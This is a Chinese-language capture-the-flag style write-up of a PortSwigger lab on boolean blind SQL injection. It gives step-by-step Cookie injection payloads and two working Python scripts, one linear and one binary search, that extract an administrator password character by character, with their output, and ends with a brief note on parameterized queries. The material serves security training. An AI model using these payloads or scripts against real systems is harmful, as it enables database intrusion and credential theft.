

# SQLi · 布尔盲注（Blind SQLi）

- 平台 / 分类 / 难度：PortSwigger / SQL injection / Apprentice
- 日期：2026-11-03
- 标签：SQLi、Blind SQLi

> 一句话结论：响应里既没有数据也没有报错，但条件的真假会让 `Welcome back` 出现或消失。
> 把这个二元信号当作信道，用 `ASCII` + `SUBSTR` 逐字符把密码问出来。

## 1. 题目要求

盲注爆破，通过不同的条件响应找出密码，登录 administrator 账号。

## 2. 步骤

### （1）确定注入点，判断是否需要盲注

payload

```
GET /filter?category=Gifts' HTTP/2
```

response

```
Welcome back!
```

payload

```
Cookie: TrackingId=obQ6lcC6uTpZfMdv'; session=oNjmATWlO6jgLAmdLnWRTBYqSRhCWkj2
```

response 无 `Welcome back!` 且状态码为 200

**结论**：注入点为 Cookie，需要盲注。

**原因**：Cookie 处注入无回响，且无内容回显。

### （2）确认布尔通道

payload

```
Cookie: TrackingId=obQ6lcC6uTpZfMdv' AND '1'='1; session=oNjmATWlO6jgLAmdLnWRTBYqSRhCWkj2
```

response

```
Welcome back!
```

payload

```
Cookie: TrackingId=obQ6lcC6uTpZfMdv' AND '1'='2; session=oNjmATWlO6jgLAmdLnWRTBYqSRhCWkj2
```

response 无 `Welcome back!`

**结论**：条件真假能影响响应。

### （3）确定数据库类型

| 数据库 | 函数差异 |
|---|---|
| Oracle | `SUBSTR`、`LENGTH`，且需要 `FROM dual` |
| MySQL、PostgreSQL、SQL Server | `SUBSTR`、`LENGTH`，不需要 `FROM dual` |

payload

```
Cookie: TrackingId=obQ6lcC6uTpZfMdv' AND (SELECT 'A')='A; session=oNjmATWlO6jgLAmdLnWRTBYqSRhCWkj2
```

response

```
Welcome back!
```

**结论**：不需要 `FROM dual` —— 非 Oracle 类型数据库。

### （4）确认表名

payload

```
Cookie: TrackingId=obQ6lcC6uTpZfMdv' AND (SELECT 'A' FROM information_schema.tables WHERE table_name='users')='A; session=oNjmATWlO6jgLAmdLnWRTBYqSRhCWkj2
```

response

```
Welcome back!
```

**结论**：存在 `users` 表。

### （5）确认列名

payload

```
Cookie: TrackingId=obQ6lcC6uTpZfMdv' AND (SELECT 'A' FROM information_schema.columns WHERE table_name='users' AND column_name='username')='A; session=oNjmATWlO6jgLAmdLnWRTBYqSRhCWkj2
```

response

```
Welcome back!
```

**结论**：`users` 表存在 `username` 列。

payload

```
Cookie: TrackingId=obQ6lcC6uTpZfMdv' AND (SELECT 'A' FROM information_schema.columns WHERE table_name='users' AND column_name='password')='A; session=oNjmATWlO6jgLAmdLnWRTBYqSRhCWkj2
```

response

```
Welcome back!
```

**结论**：`users` 表存在 `password` 列。

### （6）确认目标用户存在

payload

```
Cookie: TrackingId=obQ6lcC6uTpZfMdv' AND (SELECT 'A' FROM users WHERE username='administrator')='A; session=oNjmATWlO6jgLAmdLnWRTBYqSRhCWkj2
```

response

```
Welcome back!
```

**结论**：`users` 表存在用户 `administrator`。

### （7）确认密码长度

payload

```
Cookie: TrackingId=obQ6lcC6uTpZfMdv' AND (SELECT LENGTH(password) FROM users WHERE username='administrator')>19 AND '1'='1; session=oNjmATWlO6jgLAmdLnWRTBYqSRhCWkj2
```

response

```
Welcome back!
```

payload

```
Cookie: TrackingId=obQ6lcC6uTpZfMdv' AND (SELECT LENGTH(password) FROM users WHERE username='administrator')>20 AND '1'='1; session=oNjmATWlO6jgLAmdLnWRTBYqSRhCWkj2
```

response 无 `Welcome back!`

**结论**：密码为 20 位。

### （8）爆破

#### 方法一：全部遍历

```python
import requests

url = "https://0a07007003b3b92780e0fd9c002300f6.web-security-academy.net/filter?category=Gifts"
tracking = "obQ6lcC6uTpZfMdv"
session = "oNjmATWlO6jgLAmdLnWRTBYqSRhCWkj2"
password = ""

for i in range(1, 21):
    for j in range(32, 127):
        payload = f"' AND ASCII(SUBSTR((SELECT password FROM users WHERE username='administrator'),{i},1))={j} AND '1'='1"
        cookie = f"TrackingId={tracking}{payload};session={session}"
        r = requests.get(url, headers={"Cookie": cookie})
        if "Welcome back" in r.text:
            print("第", i, "位密码为", chr(j))
            password += chr(j)
            break

print("最终密码为：", password)
```

运行输出：

```
第 1 位密码为 k
第 2 位密码为 g
第 3 位密码为 z
第 4 位密码为 2
第 5 位密码为 u
第 6 位密码为 2
第 7 位密码为 s
第 8 位密码为 d
第 9 位密码为 l
第 10 位密码为 j
第 11 位密码为 y
第 12 位密码为 d
第 13 位密码为 f
第 14 位密码为 h
第 15 位密码为 z
第 16 位密码为 7
第 17 位密码为 e
第 18 位密码为 y
第 19 位密码为 8
第 20 位密码为 z
最终密码为： kgz2u2sdljydfhz7ey8z
```

#### 方法二：二分法

```python
import requests

url = "https://0a07007003b3b92780e0fd9c002300f6.web-security-academy.net/filter?category=Gifts"
tracking = "obQ6lcC6uTpZfMdv"
session = "oNjmATWlO6jgLAmdLnWRTBYqSRhCWkj2"


def ask(pos, mid):
    payload = f"' AND ASCII(SUBSTR((SELECT password FROM users WHERE username='administrator'),{pos},1))>{mid} AND '1'='1"
    cookie = f"TrackingId={tracking}{payload};session={session}"
    r = requests.get(url, headers={"Cookie": cookie})
    return r.status_code == 200 and "Welcome back" in r.text


def find_char(pos):
    lo, hi = 32, 126
    while lo < hi:
        mid = (lo + hi) // 2
        if ask(pos, mid):
            lo = mid + 1
        else:
            hi = mid
    return chr(lo)


password = ""
for i in range(1, 21):
    ch = find_char(i)
    password += ch
    print("第", i, "位密码：", ch)

print("密码为：", password)
```

运行输出与方法一一致，最终密码 `kgz2u2sdljydfhz7ey8z`。


**两种方法的区别**：

| 方法 | 比较符 | 循环结构 | 每位请求数 | 20 位总计 |
|---|---|---|---|---|
| 全部遍历 | `=` | `for j in range(32,127)` | 最多 95，平均 47 | 约 950 |
| 二分法 | `>` | `while lo < hi` | 固定 7 | 140 |

## 3. 易错点

### （1）注入的单引号必须是偶数

```
Cookie: TrackingId=obQ6lcC6uTpZfMdv' AND (SELECT LENGTH(password) FROM users WHERE username='administrator')>19; session=oNjmATWlO6jgLAmdLnWRTBYqSRhCWkj2
```

删掉 `AND '1'='1` 则无 `Welcome back` 响应，因为单引号不闭合。

原查询结构：

```sql
SELECT * FROM tracking WHERE TrackingId='obQ6lcC6uTpZfMdv'
```

删掉 `AND '1'='1` 注入后，单引号不闭合：

```sql
SELECT * FROM tracking WHERE TrackingId='obQ6lcC6uTpZfMdv' AND (SELECT LENGTH(password) FROM users WHERE username='administrator')>19'
```

加上 `AND '1'='1` 注入后，单引号闭合：

```sql
SELECT * FROM tracking WHERE TrackingId='obQ6lcC6uTpZfMdv' AND (SELECT LENGTH(password) FROM users WHERE username='administrator')>19 AND '1'='1'
```

### （2）f-string 与括号

payload 里的 `{i}`、`{j}` 是 f-string 的变量占位，字符串必须带 `f` 前缀，变量要用 `{}` 包起来，不能直接写变量名。

注意括号闭合：`ASCII(SUBSTR((SELECT ...),pos,1))` 一共三层括号 —— 子查询一层、`SUBSTR` 一层、`ASCII` 一层，结尾是 `,1))`。

## 4. 怎么防

**成因**：单引号没被当作数据，而被当作代码。

**方向**：参数化查询让输入永远是数据，不能改变语句结构。
